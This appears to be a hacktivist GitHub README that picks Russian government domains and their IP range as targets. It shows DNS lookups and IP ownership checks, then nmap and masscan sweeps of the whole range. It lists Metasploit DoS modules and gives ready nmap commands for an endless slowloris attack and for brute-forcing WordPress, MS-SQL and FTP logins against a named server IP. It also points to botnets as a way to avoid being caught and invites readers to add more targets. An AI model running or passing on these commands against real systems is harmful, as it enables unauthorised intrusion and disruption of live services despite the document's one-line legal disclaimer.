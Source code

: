 # pro-ukraine

![alt text](https://github.com/vikanet/pro-ukraine/blob/main/pro-ukraine.png?raw=true)

# The invasion of Ukraine by Russian troops is a threat to the whole world safety.

My goal is to share news, tools, and ideais that one can use to make a point and step up agains this war.

# There are known Russian government controlled domains, websites, services... under tha following domains:

```
government.ru
duma.gov.ru
kremlin.ru
gov.ru
```

# Anyone can use a tool like `dig` or `nslookup` to check what servers the domains are pointing to:

```
# dig government.ru

;; ANSWER SECTION:
government.ru.          6385    IN      A       95.173.136.168
government.ru.          6385    IN      A       95.173.136.162
government.ru.          6385    IN      A       95.173.136.163
```
```
# dig duma.gov.ru

;; ANSWER SECTION:
duma.gov.ru.            1800    IN      A       95.173.130.41
duma.gov.ru.            1800    IN      A       95.173.130.42
```
```
# dig kremlin.ru

;; ANSWER SECTION:
kremlin.ru.             60      IN      A       95.173.136.71
kremlin.ru.             60      IN      A       95.173.136.72
kremlin.ru.             60      IN      A       95.173.136.70
```
```
# dig gov.ru

;; ANSWER SECTION:
gov.ru.                 1800    IN      A       95.173.128.90
```

**NOTE:** the domains might have DNS load balancers that will share the load over many server and possibly geographically assing the closest server to serve each request. Which means, the IP might not be in Russian territory but in a third-party service provider (like a CDN) somewhere else.

# It is important to ALWAYS confirm the IP address of the target really belongs to the Russian government or not:

There are many sources of this kind of information, for example https://www.nirsoft.net/countryip/ru.html.

Just look for the IP target in the IP ranges assigned to the Russian government:

```
95.173.128.0 | 95.173.159.255 | The Federal Guard Service of the Russian Federation
```

Another great tool is https://ipgeolocation.io/.

```
"ip": 95.173.128.90
"country_name": Russia
"state_prov": Central Federal District
"city": Moscow
"latitude": 55.75501
"longitude": 37.63183
"time_zone": Europe/Moscow
"isp": The Federal Guard Service of the Russian Federation
```

# How to know what ports are open in each target IP exposed to the Internet? Port-scan!

```
nmap -sV -sC -oN scan1.output 95.173.128-159.0-255
nmap -F -oN scan2.output 95.173.128-159.0-255
nmap -T5 -p 80,443 -oN scan3.output 95.173.128-159.0-255
sudo nmap -O -oN scan4.output 95.173.128-159.0-255
sudo masscan 95.173.128.0/19 -p0-443 -oX scan5.output
sudo masscan 95.173.128.0/19 -p443-1000 -oX scan6.output
```

**NOTE:** the output files of the scans abore are in this repo. Skip many hours of waiting... See also **scans.summary** file with the most relevant open ports by IP.

# What tools the Hacktivists are possibly using to sabotage Russian targets?

Hacktivists are attacking the Russian government sites trying to make them offline and to creating a huge amount of traffic in their networks. It is called Dennial-of-Server, or DoS for short.

Pretty much anyone can run a DoS tool to make a particular IP go off line due to too many requests. See a small list of popular tools for DoS attacks:

Metasploit Modules

```
auxiliary/dos/tcp/synflood (Flood the server with SYN packets)
auxiliary/dos/http/slowloris.py (Makes lots of HTTP requests and sends headers periodically to keep the connections open)
auxiliary/dos/http/apache_range_dos.rb (Causes high memory and CPU consumption on Apache 2.0.x through 2.0.64, and 2.2.x through 2.2.19)
auxiliary/dos/http/gzip_bomb_dos.rb (Generates and hosts a 10MB single-round gzip file that decompresses to 10GB)
auxiliary/dos/http/hashcollision_dos.rb (Can cause a web server parsing the POST parameters issued with a request into a hash table to consume hours of CPU with a single HTTP request)
auxiliary/dos/ssl/dtls_changecipherspec.rb (Attack against Datagram TLS in OpenSSL version 0.9.8i and earlier)
auxiliary/dos/ntp/ntpd_reserved_dos.rb (Created an infinite looping of NTP requests between two NTP servers)
auxiliary/dos/dns/bind_tsig.rb (Can crash a DNS server if it is vulnerable to CVE-2016-2776)
```

NMAP

```
nmap 95.173.136.168 --max-parallelism 800 -Pn --script http-slowloris --script-args http-slowloris.runforever=true
nmap -sV --script http-wordpress-brute --script-args ‘userdb=users.txt,passdb=passwds.txt,http-wordpress-brute.hostname=domain.com, http-wordpress-brute.threads=3,brute.firstonly=true’ 95.173.136.168
nmap -p 1433 --script ms-sql-brute --script-args userdb=customuser.txt,passdb=custompass.txt 95.173.136.168
nmap --script ftp-brute -p 21 95.173.136.168
```

**NOTE:** DoS and DDoS are ilegal pactices in most if not all countries. Do not attempt to do it, it is a crime!

# How do the Hacktivists are able to perform Denial-of-Service attacks without being caught?

The most common way to become anonymous on the internet is by using a VPN or the Tor Network but Hacktivists oftenly use a much bigger tools: Bot Nets

By distributing it increases the demaging power over thousands or even millions of source addresses, making it very difficul to defent against.

# What attack vector a Hacktivist uses agains a target?

Reconaissence is the first step. A simple portscan can reveal what services are behind an IP or a range of IPs. Followed by a more sofisticated fingerprinting to reveal what applications and its versions are behind each exposed (open) port.

# Help needed!

Feel free to suggest new topics, increase the lists of targets, alternative tools, etc.
